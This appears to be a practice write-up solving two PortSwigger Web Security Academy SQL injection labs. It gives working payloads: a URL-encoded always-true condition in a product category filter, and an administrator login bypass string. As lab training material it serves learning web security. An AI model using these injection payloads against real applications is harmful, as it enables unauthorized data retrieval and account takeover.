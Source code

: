 ```yaml
---
title: SQLi - APPRENTICE
tags: [Web, Portswigger Web Security Academy]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# SQLi - APPRENTICE
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
* Hint: This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

## Exp
Payload: `https://0a2700a903496ccd807a2626001400e3.web-security-academy.net/filter?category=%27%20or%20%271%27=%271%27%20--%20#`
:::spoiler Success Screenshot
![](https://i.imgur.com/pPKFYKj.png)
:::


---

## Lab: SQL injection vulnerability allowing login bypass
* Hint:  This lab contains a SQL injection vulnerability in the login function.
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Exp
Payload:
Username: `administrator' or '1'='1' -- #`
Password: Arbitrary
:::spoiler Success Screenshot
![](https://i.imgur.com/dBm7zzB.png)
:::


## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)